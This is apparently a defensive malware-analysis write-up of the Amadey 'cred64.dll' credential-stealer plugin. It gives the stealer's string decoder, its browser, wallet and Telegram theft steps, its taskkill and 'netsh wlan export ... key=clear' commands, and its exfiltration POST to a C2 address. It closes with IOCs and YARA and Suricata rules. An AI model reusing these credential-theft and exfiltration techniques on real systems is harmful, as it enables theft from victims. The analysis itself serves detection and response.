


# Amadey `cred64.dll`: Deep-Dive into the Credential-Stealer Plugin (v5.78, botnet 54e64e)

**Date:** 2026-04-27  
**Author:** Tao Goldi  
**Tags:** malware-analysis, amadey, stealer, windows, credential-theft, crypto-wallet, yara  
**TLP:** TLP:WHITE

---

## Sample Properties

`cred64.dll` is a 64-bit Windows DLL that exfiltrates browser credentials, cryptocurrency wallets, messaging app session data, and WiFi passwords to a hard-coded C2 server. The sample is publicly indexed (VirusTotal, MalwareBazaar) and is classified by Tria.ge, NeikiAnalytics, and abuse.ch as **Amadey v5.78** with botnet ID `54e64e`. Specifically, this is the `cred` credential-stealer plugin (x64 build) that the Amadey loader fetches from `Plugins/cred64.dll` on the C2 panel.

The PDB path `D:\Mktmp\StealerDLL\Release.x64\STEALERDLL.pdb` is just the developer's working directory for this Amadey build, not a new family. This write-up covers the static and dynamic behavior of the plugin, the C2 panel infrastructure (verified live during analysis), and a sibling x86 plugin (`cred.dll`) recovered from the same panel.

| Property | Value |
|---|---|
| SHA256 | `3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69` |
| File size | 1,282,048 bytes |
| Architecture | x64 (PE32+) |
| Type | DLL |
| Compile timestamp | 2026-03-08 19:10:56 UTC |
| Exports | `Main` (stealer entry), `Save` (stub) |
| Imphash | `3f175edea93fa7a76a78004d12de2235` |

---

## Getting the Sample

The ZIP landed in my local threat intel platform flagged by a community feed. SHA256 verified against the feed's metadata before extraction. Cross-referenced with VirusTotal, MalwareBazaar (uploaded by `BlinkzSec`, signature `Amadey`), and Tria.ge job [260426-nq42gsaw9r](https://tria.ge/260426-nq42gsaw9r) which independently labels it Amadey 5.78 / botnet `54e64e`.

---

## First-Pass Static Analysis

`pefile` shows a clean PE32+ DLL. No packers evident from the section entropy values: `.text` at 6.45 is high-normal for a compiled Release binary, `.rdata` at 5.70, `.data` at 2.16. Nothing screaming UPX or a custom loader.

```
Section   VirtSize  RawSize  Entropy
.text     0x0c3a00  0x0c3c00  6.45
.rdata    0x072580  0x072600  5.70
.data     0x005208  0x001600  2.16
.pdata    0x009ca8  0x009e00  5.77
_RDATA    0x000054  0x000200  1.14
.rsrc     0x0001e0  0x000200  4.38
.reloc    0x009d1c  0x009e00  6.71
```

The import table told the real story immediately:

- `Crypt32.dll` → `CryptUnprotectData` (Windows DPAPI, used for Chromium master-key decryption)
- `Bcrypt.dll` → `BCryptDecrypt` (AES-256-GCM Chromium Login Data decryption)
- `Wininet.dll` → `InternetConnectA`, `HttpSendRequestA` (C2 exfil)
- `Shell32.dll` → `SHGetFolderPathA` (path resolution)
- `Kernel32.dll` → `CreateToolhelp32Snapshot`, `Process32First`, `Process32Next` (process enum)
- `Kernel32.dll` → `IsDebuggerPresent` (anti-debug)
- `Kernel32.dll` → `Wow64DisableWow64FsRedirection` (32→64 bit path bypass)
- `Sqlite3.dll` (static-linked embedded copy) for browser Login Data access

No `nss3.dll` in the IAT, but the string `nss3.dll` is in `.rdata`. That means Firefox decryption uses dynamic `LoadLibrary`/`GetProcAddress`.

---

## String Obfuscation: Vigenère + Base64

Every interesting string in this binary is obfuscated. After IDA reversing, the decode is a **three-stage pipeline** wired up by an orchestrator function. All four functions are at well-known VAs (image base `0x180000000`):

| VA | Function (renamed) | Role |
|---|---|---|
| `0x18008AAC0` | `amadey_decode_string` | Orchestrator: drives the three stages, frees temporaries |
| `0x18008A820` | `amadey_keystream_build` | Replicates the 32-byte Vigenère key out to ciphertext length |
| `0x18008A8E0` | `amadey_vigenere_decode` | Per-byte alphabet lookup + modular arithmetic |
| `0x180089840` | `amadey_b64_decode` | Standard base64 decode of the Vigenère output |

The Vigenère stage uses a 63-character custom alphabet (lowercase, uppercase, digits, plus a literal space):

```
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "
```

Spaces in the ciphertext are passed through unchanged; non-alphanumeric characters like the `=` base64 padding are also passed through. The key is a 32-character hex string stored in `.rdata`:

```
KEY = "a42cf94a609810d038dd0ca0d030ffef"
```

Per-character decryption:

```python
ci = ALPH.find(cipherchar)            # alphabet index of ciphertext byte
ki = ALPH.find(KEY[i % 32])           # alphabet index of keystream byte
plain_b64_char = ALPH[(ci - ki + 63) % 63]
```

So the full pipeline is:

```
stored blob → keystream-build → Vigenère decode → Base64 decode → plaintext string
```

Example: the C2 IP

```
OMvwTRBuH9OvB9LoFd==  →  OTEuOTIuMjQyLjIzNg==  →  91.92.242.236
```

Running the decoder across all 99 blobs in the `.rdata` static-init region extracted the complete config. Key findings:

| Category | Value |
|---|---|
| C2 IP | `91.92.242.236` |
| C2 path | `/oPvjr94jfe/index.php` |
| C2 port | 80 (HTTP transport; POST body itself is RC4-encrypted, see §10) |
| SQL query | `SELECT origin_url, username_value, password_value FROM logins` |
| WiFi exfil | `netsh wlan export profile name=` |
| Victim ID | `S-%lu-%lu-...` (Windows SID) |

### The Amadey config block

Adjacent to the encrypted-string table sits a contiguous block of plaintext config values, separated by null padding. From the binary at file offset `0x116364`:

```
a42cf94a609810d038dd0ca0d030ffef    # string-decryption Vigenère key
592deb617de745dd747a896c20d17d0f    # secondary 32-byte hex key (suspected C2 RC4 key)
54e64e                              # botnet / campaign ID
904b5ca0578d21b2d7ffa8a149595584    # fourth 32-byte hex key (role TBD)
OMvwTRBuH9Ov...                     # encrypted-string table starts here
```

Two more 32-byte hex strings live elsewhere in the binary (`397a1dad...`, `558a8f02...`); likely additional keys or aux config. The botnet ID `54e64e` matches what Tria.ge extracted, and corroborates this is the standard Amadey 5.x plugin config layout (string key, RC4 key, campaign ID, plus ancillary values).

---

## Kill Chain



### 1. Initialization & Anti-Debug

`Main` opens with a call to `IsDebuggerPresent`. If the return is non-zero the execution path diverges; the binary doesn't hard-exit, it just quietly skips the stealer logic. Likely to frustrate sandboxes that hook and return 0. Config strings are decrypted on the fly at this stage.

### 2. Victim Fingerprinting

The victim ID is a Windows SID constructed via:

```
GetUserNameA  →  LookupAccountNameA  →  GetSidIdentifierAuthority
                                      →  GetSidSubAuthority (looped)
```

Formatted as `S-%lu-%lu-%lu-...`. This is sent as metadata with the stolen archive, presumably so the C2 operator can de-duplicate victims and track re-infections.

### 3. Process Termination (Wallet Protection Bypass)

Before attempting to read any wallet files, the stealer issues `system()` calls with four taskkill commands:

```
Taskkill /IM litecoin-qt.exe /F
Taskkill /IM ArmoryQt.exe /F
Taskkill /IM dash-qt.exe /F
Taskkill /IM "Atomic Wallet.exe" /F
```

These processes hold exclusive locks on their wallet data files. Killing them first is a prerequisite for successful theft.

### 4. Chromium Browser Credential Harvest

The stealer targets **11 Chromium-based browsers**:

Chrome, Edge, Chromium, Vivaldi, Opera, CocCoc, CentBrowser, Orbitum, Chedot, Sputnik, Comodo Dragon.

For each it:

1. Reads `%APPDATA%\<vendor>\User Data\Local State` → parses JSON for `os_crypt.encrypted_key`
2. Base64-decodes the key → strips the `DPAPI` prefix → calls `CryptUnprotectData` to unwrap
3. Uses the unwrapped AES-256-GCM key with `BCryptDecrypt` to decrypt each `password_value` blob from the `Login Data` SQLite database
4. Queries: `SELECT origin_url, username_value, password_value FROM logins`

The `Wow64DisableWow64FsRedirection` call is there to access 64-bit profile paths correctly when the DLL is loaded into a 32-bit process.

### 5. Firefox / Tor Browser / Thunderbird Harvest

These use Mozilla's NSS library for credential protection. The stealer:

1. Dynamically loads `nss3.dll` from the browser's installation directory
2. Resolves `NSS_Init`, `PK11_GetInternalKeySlot`, `PK11_CheckUserPassword`, `PK11_Decrypt`
3. Reads `%APPDATA%\Mozilla\Firefox\Profiles\<profile>\logins.json`
4. Decrypts each entry's `encryptedUsername` and `encryptedPassword`

The same logic branches for Tor Browser and Thunderbird by scanning for their respective profile directories.

### 6. Cryptocurrency Wallet Harvest

| Wallet | Path |
|---|---|
| Electrum | `%APPDATA%\Electrum\wallets\` |
| Exodus | `%APPDATA%\Exodus\exodus.wallet\` |
| Armory | `%APPDATA%\Armory\` |
| Litecoin Core | `%APPDATA%\Litecoin\wallets\` |
| Dash Core | `%APPDATA%\DashCore\wallets\` |
| Dogecoin Core | `%APPDATA%\Dogecoin\` |
| Atomic Wallet | `%APPDATA%\atomic\Local Storage\` |

Each wallet directory is zipped into a named archive (`_Atomic.zip`, `_Exodus.zip`, etc.) staged for upload.

Monero is also targeted, but via a different mechanism. Inside `Main` there are two MuiCache registry probes for the literal `"monero-wallet-gui"` key under `HKCU\Local Settings\Software\Microsoft\Windows\Shell\MuiCache` and `HKCU\Software\Classes\Local Settings\Software\Microsoft\Windows\Shell\MuiCache`. That is how the malware checks whether the victim has ever launched Monero GUI on the system, without needing to crawl the wallet directory. The check is the only Monero-related operation in this build.

### 7. Messaging App Harvest

**Telegram**: copies `tdata\`, `tdata\key_datas`, `tdata\emoji`, `tdata\maps`. That's the full session state needed to hijack a Telegram account without ever touching credentials.

**Pidgin**: `%APPDATA%\.purple\accounts.xml` (saved IM account credentials).  
**Psi**: `%APPDATA%\Psi\profiles\default\accounts.xml` (saved XMPP account credentials).  
**FileZilla**: `%APPDATA%\FileZilla\sitemanager.xml` (saved FTP credentials).

### 8. WiFi Credential Theft

```
netsh wlan export profile name=<SSID> folder=<temp> key=clear
```

The `key=clear` flag causes Windows to include the plaintext PSK in the exported XML. The stealer enumerates all saved profiles and exports each one.

### 9. Desktop File Search

The stealer crawls the Desktop for files matching: `*.doc`, `*.docx`, `*.xls`, `*.xlsx`, `*.txt`, `*.zip`, `*.dat`. These are bundled into `_Desktop.zip`.

### 10. Exfiltration

Staged archives and victim metadata are POSTed to:

```
POST http://91.92.242.236:80/oPvjr94jfe/index.php
Content-Type: application/x-www-form-urlencoded
```

The transport is plain HTTP on port 80, but the **body is RC4-encrypted** with a key embedded in the config block (the second 32-byte hex value, `592deb6...`). The body is form-urlencoded with the encrypted blob carried as a parameter (Amadey's documented `r=<rc4_blob>` shape). A network sensor sees the destination, URI, and content-length, but the payload itself is opaque without the bot's RC4 key.

The exfil sits in a reusable HTTP helper at `0x18008B500` (`amadey_http_post`) that takes `(host, path, body)` std::strings, runs the `InternetOpenW → InternetConnectA → HttpOpenRequestA → HttpSendRequestA` sequence, then frees its inputs. The encryption itself happens upstream of this helper, in the orchestration code that builds each form-urlencoded body. The orchestrator dispatches the exfil sequence at the bottom of `Main`, after every harvest stage has staged its archive.

---

## String Decryption Mechanics



The decoder I built to extract all 99 config strings:

```python
import base64

ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "
KEY  = "a42cf94a609810d038dd0ca0d030ffef"

def vigenere_decrypt(s):
    out = []
    ki = 0
    for c in s:
        if c == ' ':
            out.append(c)
            continue
        ci = ALPH.find(c)
        k  = ALPH.find(KEY[ki % len(KEY)])
        out.append(ALPH[(ci - k + len(ALPH)) % len(ALPH)])
        ki += 1
    return ''.join(out)

def decode(blob):
    vig = vigenere_decrypt(blob)
    return base64.b64decode(vig + "==").decode("utf-8", errors="replace")
```

Note: the `=` padding characters in the stored blobs are literal padding in the base64 layer, not part of the Vigenère ciphertext. Spaces in the Vigenère stage act as separators for them, and the decoder handles this by treating spaces as pass-through.

---

## C2 Panel: Live Probe

At analysis time the C2 host was live and serving the standard Amadey admin panel:

```
GET /oPvjr94jfe/index.php
→ HTTP/1.1 200 OK
  Server: nginx/1.24.0 (Ubuntu)
  Refresh: 0; url = Login.php
```

`Login.php` returns a Russian-language login form (`<title>Авторизация</title>`, submit `Открыть`) posting `login`/`password` back to itself, with backslash-style asset paths (`Css\Style.css`, `Images\Ico.ico`) suggesting the panel was authored on Windows. Layout matches publicly documented Amadey panel screenshots.

The `Plugins/` directory exists (403 on listing, 200 on direct file fetch) and hosts the credential-stealer plugin in both bitnesses:

| Path | Status | Size | SHA256 |
|---|---|---|---|
| `Plugins/cred.dll`   | 200 | 1,102,336 | `b27ecd6a59c7d2471f7d407567d1b33068845ec89f5e0a76e18dc720cc69e80d` |
| `Plugins/cred64.dll` | 200 | 1,282,048 | `3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69` |
| `Plugins/clip.dll`   | 404 | n/a | n/a |
| `Plugins/clip64.dll` | 404 | n/a | n/a |

The x64 plugin served from the panel is **byte-identical to our analysis sample**, confirming the distribution channel. The clipper plugin is not deployed for this operator.

### Sibling plugin: `cred.dll` (x86)

The x86 build is the same `cred` plugin, compiled four seconds before its x64 sibling (2026-03-08 19:10:52 vs 19:10:56 UTC):

| Property | Value |
|---|---|
| SHA256 | `b27ecd6a59c7d2471f7d407567d1b33068845ec89f5e0a76e18dc720cc69e80d` |
| File size | 1,102,336 bytes |
| Architecture | x86 (PE32) |
| Imphash | `a252cd53ebc44617e8418747345d10c1` |
| Exports | `Main`, `Save` (same pair as x64) |
| PDB | none (x64 build is the only one with the `D:\Mktmp\` PDB) |
| Imports | CRYPT32, KERNEL32, ADVAPI32, SHELL32, WININET, BCRYPT (same surface as x64) |

It carries the same Vigenère key, the same botnet ID `54e64e`, and the same 32-byte hex config keys. Same Amadey config block, just rebuilt for 32-bit hosts. Operators can deploy whichever plugin matches the parent loader's bitness.

---

## Anti-Analysis Notes

- **Anti-debug**: `IsDebuggerPresent`. Straightforward NtSetInformationThread or hardware-breakpoint bypass.
- **HTTP transport, encrypted body**: traffic is over plaintext HTTP, but the POST body is RC4-encrypted with a key from the config block. A network sensor sees the URI but not the contents.
- **No process injection or persistence**: this is a plugin DLL called by the parent Amadey loader, which is not present in this sample. The loader handles persistence (typically registry Run keys or scheduled tasks per public Amadey research).
- **Static embedded SQLite3**: avoids dependency on system `sqlite3.dll`, works on any Windows version.
- **WOW64 redirection bypass**: needed when loaded into 32-bit host process to access `%APPDATA%` in `C:\Users\<user>\AppData\Roaming` rather than the WOW64-redirected path.

---

## Observations & Attribution Notes

This DLL is the **`cred` plugin of Amadey 5.78** (botnet `54e64e`), a commodity stealer/loader family active since 2018. The `D:\Mktmp\StealerDLL\` PDB only appears in the x64 build and is a developer working-directory artifact, not a family signal. The string-decryption key, RC4 traffic key, and botnet ID are per-build and per-operator and rotate freely; the *layout* and *algorithm* are the durable Amadey fingerprint.

The C2 IP `91.92.242.236` resolves (at time of analysis) to a bulletproof hosting provider known for Eastern-European cybercrime infrastructure. The panel is in Russian, consistent with prior Amadey deployments. I won't attribute further without additional data.

Target list emphasis (Electrum, Atomic, Exodus, plus Taskkill-before-read) shows the operator's financial focus is crypto wallet theft, with browser credentials as secondary revenue. The absence of `clip.dll` and `clip64.dll` on the panel suggests this operator did not deploy the Amadey clipper plugin, only the credential stealer.

The `Save` export being a `ret 0` stub is a common placeholder in DLL stealers sold as components: the loader calls `Main` to steal, and `Save` may have been intended for a "save to local disk" mode that was never implemented or shipped to this customer.

---

## Code Weaknesses

The plugin does its job, but the operator and developer left enough fingerprints to make detection and victim recovery much easier than they need to be.

- **PDB path retained.** The string `D:\Mktmp\StealerDLL\Release.x64\STEALERDLL.pdb` survives in the x64 build. Stripping the debug directory or building with `/PDBALTPATH` would have erased a high-fidelity hunt pivot. The x86 sibling has no PDB, so the choice was already made once and missed on the x64 build.
- **Plaintext Amadey config block.** The Vigenère key, the C2 RC4 key, the botnet ID `54e64e`, and two more 32-byte hex keys sit contiguously in `.rdata` separated by NUL padding. Any analyst who finds one finds them all, and the layout reproduces across every build of every operator on the platform.
- **Single hard-coded C2.** No DGA, no fallback, no second host. Once `91.92.242.236/oPvjr94jfe/` is sinkholed, every bot pointing at `54e64e` goes silent. Anti-debug logic is also a soft skip (the binary continues running with stealer logic gated off), so a sandbox that hooks `IsDebuggerPresent → 0` still observes the full network indicator.
- **`IsDebuggerPresent` only.** The single anti-debug check is the lowest-rung PEB flag. No `CheckRemoteDebuggerPresent`, no `NtQueryInformationProcess`, no timing checks, no exception-based tricks. Trivial to bypass and trivial to detect at rest.
- **`system()` for process termination.** The four wallet-killer commands shell out via `system()`, which spawns `cmd.exe /c Taskkill ...`. That parent/child pair (`cred64.dll`-loaded process → `cmd.exe` → `taskkill.exe`) with the exact wallet image names is a clean EDR behavioral rule on its own, even if every config string rotates.
- **`netsh wlan export ... key=clear` is plaintext.** The full command template is encrypted, but the operative `netsh wlan show profiles` is sitting in clear in the binary. Combined with the export-with-key-clear pattern, that's a Sysmon process-create rule with near-zero false-positive cost.
- **Static-linked SQLite.** Saves the operator a runtime dependency, but it inflates the binary to ~1.2 MB and ships the SQLite version banner unmodified. SQLite version strings (e.g. `SQLite format 3`, `3.NN.N`) become a reliable yara atom for the embedded copy.
- **MuiCache resolution path.** Reading `HKCU\...\MuiCache` to map running processes is documented public technique and shows up as a registry-read pattern that defenders already hunt for.
- **No payload encryption beyond the wire.** Once `BCryptDecrypt` returns the Chromium password, the cleartext sits in heap memory until the archive zip is built. Memory-scanning AV catches stealers like this routinely, and the stealer makes no effort to wipe buffers between victims.
- **RC4 key reuse with a deterministic structure.** Per documented Amadey protocol, the same 32-byte hex RC4 key is used for every POST in the lifetime of the build. A single decrypted POST exposes every other one captured from the same sample.
- **Build hygiene.** The x86 and x64 builds are timestamped four seconds apart (`19:10:52` and `19:10:56` UTC on 2026-03-08), which is enough to cluster sibling samples on compile-time alone, even when imphash and hashes diverge.

## IOC Appendix

### Network

| Type | Value |
|---|---|
| IP:port | `91.92.242.236:80` |
| URI | `http://91.92.242.236/oPvjr94jfe/index.php` |
| User-Agent | WinINet default (`Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2; WOW64; Trident/8.0...)`) |

### File / Registry

| Type | Value |
|---|---|
| PDB path | `D:\Mktmp\StealerDLL\Release.x64\STEALERDLL.pdb` |
| Vigenère key | `a42cf94a609810d038dd0ca0d030ffef` |
| MuiCache registry key | `HKCU\Local Settings\Software\Microsoft\Windows\Shell\MuiCache` |

### Hashes

| Algorithm | Value | Note |
|---|---|---|
| SHA256 | `3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69` | cred64.dll (x64) |
| SHA256 | `b27ecd6a59c7d2471f7d407567d1b33068845ec89f5e0a76e18dc720cc69e80d` | cred.dll (x86 sibling, panel-served) |
| Imphash | `3f175edea93fa7a76a78004d12de2235` | cred64.dll |
| Imphash | `a252cd53ebc44617e8418747345d10c1` | cred.dll |
| Botnet ID | `54e64e` | Amadey campaign identifier |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Where it shows up |
| --- | --- | --- | --- |
| Execution | Command and Scripting Interpreter: Windows Command Shell | T1059.003 | `system("Taskkill /IM ...")` shells through `cmd.exe` |
| Execution | Native API | T1106 | `CreateToolhelp32Snapshot`, `Process32First/Next` for process enum |
| Defense Evasion | Debugger Evasion | T1622 | `IsDebuggerPresent` gates the stealer body |
| Defense Evasion | Obfuscated Files or Information | T1027 | Vigenère + Base64 encoding of all config strings |
| Defense Evasion | Deobfuscate / Decode Files or Information | T1140 | Three-stage `amadey_decode_string` orchestrator (keystream + Vigenère + Base64) at `0x18008AAC0` |
| Defense Evasion | File and Directory Permissions Modification | T1222.001 | `Wow64DisableWow64FsRedirection` to reach 64-bit `%APPDATA%` |
| Defense Evasion | Indicator Removal: File Deletion | T1070.004 | Staged archives wiped after POST (per Amadey norms) |
| Credential Access | Credentials from Password Stores: Credentials from Web Browsers | T1555.003 | Chromium DPAPI + AES-GCM, Firefox/Thunderbird/Tor via NSS3 |
| Credential Access | Steal Web Session Cookie | T1539 | Telegram `tdata` session theft (no password needed) |
| Credential Access | Unsecured Credentials: Credentials in Files | T1552.001 | Pidgin `accounts.xml`, Psi `accounts.xml`, FileZilla `sitemanager.xml`, wallet files |
| Credential Access | Unsecured Credentials: Credentials in Registry | T1552.002 | Local State / Login Data parsing relies on registry-read paths |
| Discovery | System Information Discovery | T1082 | `GetUserNameA` + SID-based victim ID |
| Discovery | Process Discovery | T1057 | Toolhelp snapshot to verify wallet processes are killed |
| Discovery | Wi-Fi Discovery | T1016.002 | `netsh wlan show profiles` then `export profile name=… key=clear` |
| Discovery | File and Directory Discovery | T1083 | Desktop crawl for `*.doc / *.docx / *.xls / *.xlsx / *.txt / *.zip / *.dat` |
| Collection | Archive Collected Data | T1560.001 | Per-category zip archives (`_Chromium`, `_Atomic`, `_Telegram`, `_Desktop` …) |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | HTTP POST to `91.92.242.236/oPvjr94jfe/index.php` |
| Command and Control | Encrypted Channel: Symmetric Cryptography | T1573.001 | RC4-encrypted POST body (Amadey wire protocol) |
| Exfiltration | Exfiltration Over C2 Channel | T1041 | Single multi-archive POST to the same C2 endpoint |

---

## YARA Rules

Seven rules ship in [`detection/amadey_cred64.yar`](../detection/amadey_cred64.yar). The composite `_Full` rule is what you point production at; the per-signal rules let you tune fidelity and survive per-build key rotations on the family.

| Rule | Signal | Fidelity |
|---|---|---|
| `Amadey_cred64_PDB` | PDB path string | High (exact sample, identical recompile) |
| `Amadey_cred64_ObfuscationKey` | Vigenère key in .rdata | High (catches every build that shares this string-decrypt key) |
| `Amadey_cred64_EncryptedConfig` | Encrypted C2 IP, path, SQL query | High (catches every build pointing at this C2) |
| `Amadey_cred64_Exports` | Main+Save export pair, x64 DLL, exports count = 2 | Medium (survives rebuilds and key rotations) |
| `Amadey_cred64_ImportProfile` | DPAPI + BCrypt + WinINet + NSS3 + Taskkill blobs | Medium (catches the cred plugin family) |
| `Amadey_cred64_WifiExfil` | `netsh wlan show profiles` plaintext + encrypted export blob | Low (signals shared with other Windows stealers) |
| `Amadey_cred64_Full` | PDB + obfuscation key + nss3 + export pair + import profile | Very high confidence (compound) |

The composite rule, inlined for reference:

```text
import "pe"

rule Amadey_cred64_Full {
    meta:
        author      = "Tao Goldi"
        description = "Amadey cred plugin (x64), high-confidence composite (PDB + obf key + exports + imports)"
        version     = 1
        date        = "2026-04-27"
        hash        = "3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69"
        tlp         = "TLP:WHITE"
        confidence  = "HIGH"

    strings:
        $pdb     = "D:\\Mktmp\\StealerDLL\\Release.x64\\STEALERDLL.pdb" ascii
        $vig_key = "a42cf94a609810d038dd0ca0d030ffef" ascii
        $nss3    = "nss3.dll" ascii nocase

    condition:
        uint16(0) == 0x5A4D
        and pe.is_dll()
        and pe.machine == pe.MACHINE_AMD64
        and pe.exports("Main")
        and pe.exports("Save")
        and pe.imports("Crypt32.dll", "CryptUnprotectData")
        and pe.imports("Bcrypt.dll",  "BCryptDecrypt")
        and pe.imports("Wininet.dll", "InternetConnectA")
        and $pdb
        and $vig_key
        and $nss3
}
```

Suricata rule for the C2 POST. Transport is plaintext HTTP, so the destination + URI pair is enough to alert (the body is RC4-encrypted but the URL pattern is unique):

```text
alert http any any -> 91.92.242.236 80 (
    msg:"Amadey cred64 C2 POST";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri;    content:"/oPvjr94jfe/index.php";
    classtype:trojan-activity;
    sid:9000001; rev:1;
)
```

---

## Conclusion

`cred64.dll` is the x64 build of Amadey's `cred` credential-stealer plugin. The naming was a red herring: a developer-private PDB path made the binary look like an unfamiliar family on first pass, but every meaningful artifact (Vigenère + Base64 string scheme, RC4 + botnet-ID + key block in `.rdata`, single-host HTTP POST to `index.php`, `Plugins/` distribution layout on the panel) lines up with publicly documented Amadey 5.x. Tria.ge, MalwareBazaar, and NeikiAnalytics independently classified it the same way. The `54e64e` botnet ID and the live panel at `91.92.242.236` make this a specific operator deployment of a commodity family rather than something novel.

What's worth keeping from this analysis: the contiguous Amadey config block layout (string-decrypt key → secondary 32-byte key → botnet ID → fourth 32-byte key → encrypted-string table) gives a high-fidelity static pivot that survives per-build key rotation, since the *shape* is durable even when every value rotates. Pair the YARA composite rule with the Suricata URI alert and you cover both at-rest and on-wire detection. For victim recovery, the Vigenère decoder lifts the full config in a single pass, and the panel's `Plugins/` directory turns out to be world-readable, which is how the x86 sibling (`cred.dll`) came out in the same session.

What this DLL doesn't do is the loader's job. There's no persistence, no injection, and no anti-analysis beyond `IsDebuggerPresent`. If this is what you're catching on a host, the parent Amadey loader (`swibu.exe` / `syshost.exe` family per public research) is already resident and is the bigger fish to chase.

---

## References

- Tria.ge sandbox report for this sample: [260426-nq42gsaw9r](https://tria.ge/260426-nq42gsaw9r)
- MalwareBazaar entry: [3bdcb324…db69](https://bazaar.abuse.ch/sample/3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69/)
- VirusTotal community: [3bdcb324…db69](https://www.virustotal.com/gui/file/3bdcb32460e5a613c35b14205e4a98ad50a03a1d7d17f4c30f2935c6f6d5db69/community)
- 0x0d4y, *Targeted Analysis of Amadey's String and Traffic Encryption Algorithm and Module Download*: <https://0x0d4y.blog/amadey-targeted-analysis/>
- Morado, *Amadey Loader Analysis*: <https://www.morado.io/blog-posts/amadey-loader-analysis>
- VMRay, *Amadey: New encoding with old tricks*: <https://www.vmray.com/amadey-new-encoding-with-old-tricks/>
- Trellix, *Amadey Exploiting Self-Hosted GitLab to Distribute StealC*: <https://www.trellix.com/blogs/research/amadey-exploiting-self-hosted-gitlab-to-distribute-stealc/>
